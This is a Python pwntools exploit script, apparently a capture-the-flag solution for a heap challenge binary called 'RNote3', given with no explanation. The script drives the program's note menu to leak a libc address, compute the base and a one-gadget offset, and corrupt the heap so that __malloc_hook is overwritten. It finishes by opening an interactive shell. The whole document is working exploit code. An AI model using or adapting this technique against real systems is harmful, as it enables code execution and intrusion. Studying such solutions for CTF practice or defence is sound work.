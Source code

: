     from pwn import *
    context.log_level = 'debug'
    io = process('./RNote3')
    elf = ELF('RNote3')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    
    def add(name,content,size):
    	io.sendline('1')
    	io.recvuntil('title:')
    	io.sendline(name)
    	io.recvuntil('size:')
    	io.sendline(str(size))
    	io.recvuntil('content:')
    	io.sendline(content)
    
    def show(name):
    	io.sendline('2')
    	io.recvuntil('please input note title:')
    	io.sendline(name)
    def delete(name):
    	io.sendline('4')
    	io.recvuntil('title:')
    	io.sendline(name)
    def edit(name,content):
    	io.sendline('3')
    	io.recvuntil('title:')
    	io.sendline(name)
    
    	io.recvuntil('content:')
    	io.sendline(content)
    
    io.recvuntil('Exit')
    add('secunda','A'*0x5f,0x60)
    add('nirn','B'*0x7f,0x80)
    add('alex','C'*0x7f,0x80)
    show('nirn')
    io.recvuntil('BBBB\n')
    
    delete('nnn')
    show('\n')
    io.recvuntil('content: ')
    leak = u64(io.recv()[:6].ljust(8,'\x00'))
    print hex(leak)
    libc_base = leak - libc.symbols['__malloc_hook'] - 88 - 0x10
    mlh = libc_base + libc.symbols['__malloc_hook']
    one = 0xe9415 + libc_base
    
    log.success(hex(libc_base))
    log.success(hex(mlh))
    log.success(hex(one))
    add('aleX','AAA',0x80)
    show('secunda')
    io.recv()
    delete('nnn')
    edit('',p64(mlh - 0x23) + 'AAAAA')
    add('sss','A'*0x60,0x60)
    add('shell','aaa' + p64(one),0x60)
    gdb.attach(io)
    raw_input()
    delete('aleX')
    delete('')
    io.interactive()

